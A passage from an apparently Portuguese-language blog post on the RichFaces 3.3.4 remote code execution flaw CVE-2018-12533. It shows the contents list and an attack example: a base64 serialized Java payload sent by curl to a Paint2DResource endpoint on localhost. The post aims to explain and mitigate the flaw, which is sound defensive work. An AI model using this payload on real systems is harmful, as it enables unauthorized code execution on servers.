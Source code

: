 ```yaml
---
author-id: mhagnumdw
categories:
- richfaces
date: "2025-01-02T11:22:00Z"
feature-img: assets/img/posts/richfaces-vulnerability-cve-2018-12533-rf-14310/banner.png
image: assets/img/posts/richfaces-vulnerability-cve-2018-12533-rf-14310/banner.png
tags:
- richfaces
- jboss
- vulnerabilidade
thumbnail: assets/img/posts/richfaces-vulnerability-cve-2018-12533-rf-14310/banner.png
title: RichFaces Vulnerability CVE-2018-12533 RF-14310
---
```


Demonstra a falha presente no RichFaces 3.3.4 de execução remota de código e como mitigar e/ou bloquear.



- [Exemplo de ataque](#exemplo-de-ataque)
- [Clonar o repositório](#clonar-o-repositório)
- [Decodificando o payload](#decodificando-o-payload)
- [Deserializando a classe Java](#deserializando-a-classe-java)
- [Gerando um payload para testar a vulnerabilidade](#gerando-um-payload-para-testar-a-vulnerabilidade)
- [Como mitigar?](#como-mitigar)
  - [Se você realmente precisa desse endpoint](#se-você-realmente-precisa-desse-endpoint)
  - [Se você não precisa desse endpoint](#se-você-não-precisa-desse-endpoint)
- [Entendendo o fluxo da execução](#entendendo-o-fluxo-da-execução)
- [Quem usa esse recurso?](#quem-usa-esse-recurso)
- [Dicas](#dicas)
- [Links relevantes](#links-relevantes)

> Detalhes da [CVE-2018-12533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-12533). Outras versões do RichFaces são vulneráveis, como pode ser visto [aqui](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html).

## Exemplo de ataque

```bash
export PAYLOAD_BASE64_RICHFACES='eJx1k8-LFEcUx98MuKtZD0YhIQTJOkpmBrarZ2ZdWdksmv2BGZg14oigEoY3NW-7a62u6q16M9PrYm5evHr1llMgAcG!wJsEctk!IR4kh4CE5Bzp7tUlktSlisenvu9Lfev99Acc8w4uWRcJp2S8jZK8cGRG5O4rFjEnWtxAZbizcZO8HTtJF7oJRrSBjKsvD3479c-Pz6ow24Xjg2G0brV1XZgdbFuXIOenmFQUcxdmBlM14vgunJAoY8Khph4cG4yQkeF0bwcnGGo0UfjtcIckr!RgZpDmjXfhe6hkKZSrAgBfAICF1Dv4Mr-WidK1tElqDRkWfUamb6wekevjhNydX56vPnn661YVqj04ITV6fx0T-nffPjtlopUefORxQqNCg-GTklA27JNTqNWD3PlKlubt69Imwo9NYUATe0Fa9ChCubdFHNvRmjIjZaJ33qtQ6UElYfi8UM1C0mEJbmapI--VNSvZ!yrfwuhD-p3ySYDMwWflc5AWH3J4-q8La692uVpwZ95zR8QPjx73!7x78FVO5A7O5V9iZ2i9!y-9bpLq4ZtP!5578fFW3jsPae4BQGWuMnt-v8hj3RqmjEVEvJkxOYP6sNRo5sX1PIZGU2xbl4fRqJWmvHQqZdEvtk0TKUNbaDAiV2sKQ9Ou8YxGUilSAmt7hwq-1hQ0QV2KiTxXcXNsWCWU04fHRlNQRrJxrz5EH9cX6oGsL9TZjmU8H3KShu8nIZiMtSGHQ6UV7wVyQkGn1V4O2p2lxcXAbQfti4vtVtBpdZZa7VYnaLdbF5eW6981a82HAGMHZ-71jpwc!rCfD26!!v3s!rXipQGgymUgAqcsrjlMYyV9Z4Ph1NHVcijSNJt-DVfCiaKpD6U1fqwZb-DIoRVZPqvzVy8vLyy154vJWa2d35eYsoxxjdCIoviwlr0F6sFSwQ__'
curl "http://localhost:8080/grpfor/a4j/s/3_3_3.Finalorg.richfaces.renderkit.html.Paint2DResource/DATA/${PAYLOAD_BASE64_RICHFACES}.seam"
```

